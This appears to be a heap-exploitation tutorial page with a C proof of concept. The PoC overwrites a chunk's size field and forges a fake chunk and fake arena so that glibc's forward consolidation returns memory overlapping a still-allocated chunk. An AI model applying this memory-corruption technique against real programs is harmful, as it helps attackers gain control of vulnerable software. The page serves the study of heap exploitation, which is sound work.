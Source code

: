 <details>
<summary><strong>Description</strong></summary>
<p>

using forward consolidation to get overlapping memory...

chunk consolidation refers to when we free a chunk, that is next to an adjacent freed chunk (not present in the tcache/fastbin), and malloc will merge the two adjacent freed smaller chunks into one larger chunk. The purpose of this code is to show how we can consolidate a chunk we are currently freeing, into another allocated chunk...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {

    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *chunk2, *consolidated_chunk;

    chunk0 = malloc(0x20); // this chunk stored fake main_arena
    chunk1 = malloc(0x420);
    chunk2 = malloc(0x80); // foward consolidate chunk1 into chunk2

    /*VULNERABILITY*/
    chunk1[-1] = 0x471; // overwrite size of chunk1 extends into chunk2
    /*VULNERABILITY*/

    chunk2[7] = 0x21; // fake chunk's size

    // set up fake arena (there is no side effect, bins mechanics act normal, this is needed to bypass mitigations during consolidation)
    chunk2[8] = ((long)chunk0); // set our fwd/bk ptrs for our fake chunk to chunk0 (fake main_arena)
    chunk2[9] = ((long)chunk0);

    chunk0[2] = (long)&chunk2[6]; // set our fwd/bk ptrs for our fake main_arena to fake chunk
    chunk0[3] = (long)&chunk2[6];

    chunk2[10] = 0x20; // bypass prev_size check of the chunk after fake chunk (the chunk we're consolidating into)
    chunk2[11] = 0x30; // bypass size check of the chunk after fake chunk (the chunk we're consolidating into)

    free(chunk1); // trigger foward consolidation
    consolidated_chunk = malloc(0x480);

    printf("consolidated chunk: %p\n", consolidated_chunk);
    printf("consolidated chunk end: %p\n", consolidated_chunk + 0x480 + 0x10);
    printf("chunk2 (still allocated): %p\n", chunk2);
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/malloc/fwd_consolidation/readme.md
> i modified it a little (easier to use?)...

</p>
</details>